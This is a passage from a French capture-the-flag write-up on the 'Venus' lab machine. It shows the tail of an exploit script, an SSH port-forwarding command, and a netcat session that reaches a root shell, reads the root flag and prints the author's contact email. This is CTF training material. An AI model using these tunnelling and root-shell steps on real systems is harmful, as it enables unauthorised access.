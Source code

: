 ```python
print(r.recv(1024))                                                                                                    
r.close()
```

Je me suis rendu après coup que j'aurais pu utiliser les fonctionnalités de `pwntools` pour obtenir et calculer les adresses mémoires au lieu de le faire manuellement...

Pour l'exploitation je forwarde d'abord le port 9080 sur ma machine :

```bash
ssh -N -L 9080:127.0.0.1:9080 magellan@192.168.56.177
```

Une fois l'exploit lancé on obtient notre shell `root` sur le port 4444 :

```console
[magellan@venus ~]$ nc 127.0.0.1 4444 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4444.
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
cd /root
ls
anaconda-ks.cfg
root_flag.txt
cat root_flag.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Venus!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_83588a17919eba10e20aad15081346af]
```

## Solutions alternatives
